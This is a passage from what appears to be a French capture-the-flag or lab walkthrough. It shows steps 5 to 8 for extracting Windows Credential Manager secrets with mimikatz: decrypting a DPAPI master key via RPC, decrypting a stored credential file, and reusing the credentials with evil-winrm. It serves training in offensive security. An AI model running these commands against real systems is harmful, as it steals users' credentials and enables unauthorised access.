 5) On retrouve plusieurs dossiers, avec des noms qui commencent par les guidMasterKey que l'on a noté précédemment, dans mimikatz

`dpapi::masterkey /in:C:\Users\PPotts\appdata\roaming\microsoft\protect\<SID>\<guidMasterKey> /rpc`

6) L'output fourni un résultat verbeux, regarder les dernières lignes et chercher une longue clé nommé `[DomainKey] with RPC` puis la copier
7) Dans mimikatz

`dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\credentials\XXXXXX /masterkey::<key>`

8) Récupérer les creds et se connecter avec evil-winrm

https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials